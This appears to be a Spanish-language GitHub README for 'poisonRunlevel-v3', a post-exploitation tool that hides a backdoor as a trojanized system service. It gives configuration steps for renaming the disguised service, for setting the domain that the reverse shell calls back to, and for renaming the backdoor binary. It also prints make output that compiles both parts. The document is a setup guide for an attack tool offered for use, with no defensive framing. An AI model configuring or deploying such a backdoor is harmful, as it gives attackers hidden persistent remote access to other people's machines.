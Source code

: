 # poisonRunlevel-v3
Post-Exploitation - Servicio troyanizado - Backd00r

<h4>poisonRunlevel v3. Demo</h4><br />
https://www.youtube.com/watch?v=f_HsdmacLNI

Editar:
<pre>
src/poisønRunLevel.c ## editar linea para cambiar nombre de servicio (backdoor)
    34	#define TROY "noip" // set nombre servicio troyano
</pre>

<pre>
src/backd00r.c ## setear nombre de dominio donde conectara reverse shell
    14	#define DOMINIO "nombredominio.cl"
</pre>

<pre>
Makefile ## editar Makefile nombre de salida (-o) de backdoor
     9		gcc src/backd00r.c -o noip 
</pre>

Compilar:
<pre>
[p0fk@blackbell poisonRunlevel-v3]$ make
rm -f opendoor poison unit.service
gcc src/backd00r.c -o noip 
gcc -std=c99 -std=gnu99 src/poisønRunLevel.c -o poison -Ilib/ 
</pre>
